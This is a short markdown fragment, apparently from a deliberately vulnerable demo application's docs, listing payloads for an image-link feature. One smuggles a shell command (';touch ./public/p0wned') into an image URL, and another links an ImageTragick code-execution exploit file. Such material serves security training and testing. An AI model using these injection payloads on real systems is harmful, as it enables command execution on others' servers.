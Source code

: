 ### Example
```markdown
![alt text](https://raw.githubusercontent.com/khulnasoft-lab/vulnpkg/feat/oreilly/exploits/khulnasoft.png "Image todo item")
```

### Shell Command Injection
```markdown
![alt text](https://raw.githubusercontent.com/khulnasoft-lab/vulnpkg/feat/oreilly/exploits/khulnasoft.png;touch ./public/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability
```markdown
![alt text](https://raw.githubusercontent.com/khulnasoft-lab/vulnpkg/master/exploits/imagetragick_rce1.png "Image todo item")
```





